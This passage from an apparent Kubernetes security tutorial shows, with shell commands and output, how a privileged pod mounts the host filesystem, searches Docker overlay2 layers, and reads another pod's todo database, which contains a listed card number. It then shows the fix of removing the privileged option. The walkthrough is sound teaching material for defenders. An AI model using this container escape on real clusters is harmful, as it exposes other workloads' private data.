Let’s take this game a step forward and try to access data from the other pod. For that, we’ll use the fact that Kubernetes uses Docker internally. Docker in its turn, keeps all the data about the images on a local storage. We can examine the content of the dir `/var/lib/docker/<storage-driver>` (the storage driver type in our case is `overlay2`) and check the files of each of the Docker layers:

root@nginx-deployment-7f8d65c474-9dvbq:/tmp/host-fs# cd ./var/lib/docker/overlay2/
root@nginx-deployment-7f8d65c474-9dvbq:/tmp/host-fs/var/lib/docker/overlay2# ls -haltr
total 744K
drwx------   3 root root 4.0K Mar 25 20:07 8fc4b6780c26c1698adf3f4310fdf498246c0b983067b2612bb9189e1bf20926
drwx------   4 root root 4.0K Mar 25 20:07 ee6d034f9d1a4dc2a57d5a175252b6db01ede66dea8ebfa6c0ed095391fe5e3e
… fc49cecb6511ffa6526101c36ac1bdd14e59c0f6539954981e8ed8ec99d45aac-init
drwx------   5 root root 4.0K Jul  7 04:03 fc49cecb6511ffa6526101c36ac1bdd14e59c0f6539954981e8ed8ec99d45aac
Each sub directory in this directory contains the content of files from different docker layers from the same host. From this point, an attacker can use different approaches and look for interesting files that might be relevant for other pods. Just for example, let’s look for all of the files with an extension of `db` by using the find command:

root@nginx-deployment-7f8d65c474-9dvbq:/tmp/host-fs/var/lib/docker/overlay2# find . -name "*.db"
./b8e9...7519/diff/go/src/todo/todo.db
That’s interesting…. a subdirectory called todo.db under a src directory of an application called TODO 🤔 let’s check the content of this directory:

root@nginx-deployment-7f8d65c474-9dvbq:/tmp/host-fs/var/lib/docker/overlay2# cd ./b8e9...7519/diff/go/src/todo/todo.db
root@nginx-deployment-7f8d65c474-9dvbq:/tmp/host-fs/var/lib/docker/overlay2/b8e9...7519/diff/go/src/todo/todo.db# ls
000000000.data    lock
root@nginx-deployment-7f8d65c474-9dvbq:/tmp/host-fs/var/lib/docker/overlay2/b8e9...7519/diff/go/src/todo/todo.db# cat 000000000.data
'ǵ'todo_0"'{"ID":0,"Done":false,"Title":"secret","CreatedAt":"2020-07-12T04:40:06.912672669Z","UpdatedAt":"2020-07-12T04:40:06.912673232Z"ߗ'nextid'''''      todo_1'"'{"ID":1,"Done":false,"Title":"change OrKa credit card: 4012 8888 8888 1881", "CreatedAt":"2020-07-12T04:40:19.334655309Z", "UpdatedAt":"2020-07-12T04:40:19.334655722Z"''nextid'
And 💥! We managed to find our secret task…
So what exactly happened here? We used the fact that the pod is privileged, and accessed the file system of the host (using mount) in order to get files from a different pod.

Let’s solve this security problem
The solution for the problem is very simple – don’t use the privileged option.

In order to validate that, we can deploy the same Nginx Deployment, this time without the privileged option:

kubectl apply -f https://gist.githubusercontent.com/orkamara/ea5e1d317e733744315c439eb2ab7b33/raw/bf1be61c316ecb9f955f150dd138f0d589053166/non-privileged-nginx-deployment.yaml
After running the last command, the old Nginx Deployment will get terminated, and a new one will be created. No need to create a new service (using `kubectl expose deployment`) as the existing one is enough. We can now try to run the same commands on the new pod:

❯ kubectl get pod
NAME                                   READY   STATUS    RESTARTS    AGE
nginx-deployment-7fd966448c-94jxl      1/1     Running   0          2m43s
todolist-deployment-74c7c78f9c-28qfd   1/1     Running   0          47h
❯ kubectl exec -it nginx-deployment-7fd966448c-94jxl bash
root@nginx-deployment-7fd966448c-94jxl:/# mkdir /tmp/host-fs
root@nginx-deployment-7fd966448c-94jxl:/tmp# mount /dev/vda1 /tmp/host-fs/
mount: permission denied
As you can see, the `mount` command failed with `permission denied` error, as the pod is running without the sufficient permissions in order to run this command.
